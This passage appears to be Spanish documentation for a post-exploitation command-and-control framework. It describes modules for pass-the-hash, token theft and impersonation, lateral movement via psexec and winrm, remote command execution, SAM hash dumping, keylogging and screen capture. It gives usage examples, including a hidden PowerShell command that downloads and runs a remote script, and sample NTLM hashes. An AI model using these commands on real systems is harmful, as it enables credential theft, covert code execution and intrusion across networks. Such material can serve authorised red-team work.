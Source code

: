 p. ej.
```
runas CORP\Administrador securePassword12! Powershell.exe -nop -w hidden -c "IEX ((nuevo-objeto net.webclient).downloadstring('http://192.168.50.90:80/filename'))"
```
- **pth:** Al proporcionar un nombre de usuario y un hash NTLM, puede realizar un ataque Pass The Hash e inyectar un TGT en el proceso actual. \
:exclamation: Este módulo requiere privilegios de administrador.
- **pth Uso:**
```
pth [DOMINIO\usuario] [hash]
```
```
pth Administrador 97fc053bc0b23588798277b22540c40d
pth CORP\Administrador 97fc053bc0b23588798277b22540c40d
```
- **steal_token:** Robar un token de un proceso específico.
- **make_token:** Al proporcionar credenciales, puede crear un token de suplantación en el proceso actual y ejecutar comandos. Desde el contexto del usuario suplantado.
- **jump:** Proporciona una forma fácil y rápida de moverse lateralmente usando winrm o psexec para generar una nueva sesión de baliza en un objetivo. \
:exclamation: El módulo **jump** usará el token de delegación/suplantación actual para autenticarse en el objetivo remoto. \
:muscle: Podemos combinar el módulo **jump** con el módulo **make_token** o **pth** para un "salto" rápido a otro objetivo en la red.
- **jump Uso:**
```
jump [psexec64,psexec,psexec_psh,winrm64,winrm] [servidor/estación de trabajo] [escuchador]
```
p. ej.
```
jump psexec64 DC01 Lab-HTTPS
jump winrm WS04 Lab-SMB
jump psexec_psh WS01 Lab-DNS
...
```
- **remote-exec:** Ejecuta un comando en un objetivo remoto usando psexec, winrm o wmi. \
:exclamation: El módulo **remote-exec** usará el token de delegación/suplantación actual para autenticarse en el objetivo remoto.
- **remote-exec Uso:**
```
remote-exec [método] [objetivo] [comando]
```
- **ssh/ssh-key:** Autentica usando SSH con contraseña o clave privada. Funciona tanto para hosts Linux como Windows. Ofrece funcionalidad básica de SSH con algunos módulos adicionales para la postexplotación.

## Exfiltración
- **hashdump:** Vuelca los hashes NTLM de la colmena SAM local. Esto solo vuelca las credenciales de usuario de la máquina local.
- **keylogger:** Captura las pulsaciones de teclas de un proceso específico y las guarda en una base de datos.
- **keylogger Uso:**
```
keylogger [pid] [x86|x64]
```
p. ej.
```
keylogger 8932 x64
keylogger
...
```
Este comando también se puede usar sin especificar argumentos para generar un proceso temporal e inyectarle el registrador de pulsaciones de teclas.
- **captura de pantalla:** Captura la pantalla de un proceso actual y la guarda en la base de datos.